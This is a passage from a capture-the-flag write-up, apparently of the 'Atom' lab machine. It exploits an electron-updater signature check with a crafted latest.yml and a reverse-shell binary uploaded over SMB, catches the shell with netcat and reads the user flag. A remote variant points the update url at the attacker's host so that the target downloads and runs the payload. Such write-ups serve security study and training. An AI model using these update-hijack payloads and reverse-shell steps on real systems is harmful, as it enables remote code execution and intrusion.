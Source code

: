The `url` is the binary name with a `'` in it to break validation. I set the `size` to the correct size, but it doesn’t matter. Same thing with `releaseDate`, which can be any valid date string, or just omitted. One thing that cost me a ton of time - the example in the post has invalid spacing! `sha512` and `size` should be lined up with `url`, not with `-`.

I’ll upload the `latest.yml` and the binary to one of the client folders, making sure to update the name of `rev.exe` to `r'ev.exe` to match what’s in the `latest.yml`:

```

smb: \client1\> put latest.yml
putting file latest.yml as \client1\latest.yml (0.7 kb/s) (average 8.1 kb/s)
smb: \client1\> put rev.exe r'ev.exe
putting file rev.exe as \client1\r'ev.exe (17.2 kb/s) (average 8.8 kb/s)

```

Within a minute, there’s a shell at the listening `nc`:

```

oxdf@parrot$ rlwrap nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.237] 50128
Microsoft Windows [Version 10.0.19042.906]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
atom\jason

```

There’s no shell upgrade in Windows, but I do use `rlwrap` to get access to the arrow keys. If you prefer PowerShell to Cmd, you can run `powershell` to get that prompt.

`user.txt` is also now available:

```

C:\Users\jason\desktop>type user.txt
3bb5552e************************

```

#### Remote

When helping a friend with Atom later, I noticed that the field was `url`, and while I was putting a local file next to `latest.yml` on the server, it seems logical that exploit also works with the payload remotely. I’ll create another YAML file:

```

version: 2.2.5
files:
  - url: http://10.10.14.7/r'ev.exe
    sha512: xYmfwTcneb8dT4kVFeUtvyrEGi1iiJvqrU1PaLPMC/omejOR7f0gyOT1lTv8pjcXXr6kR0u8rAxg4Sd5zk/fOw==
    size: 7168
path: r'ev.exe
sha512: xYmfwTcneb8dT4kVFeUtvyrEGi1iiJvqrU1PaLPMC/omejOR7f0gyOT1lTv8pjcXXr6kR0u8rAxg4Sd5zk/fOw==
releaseDate: '2021-04-17T11:17:02.627Z

```
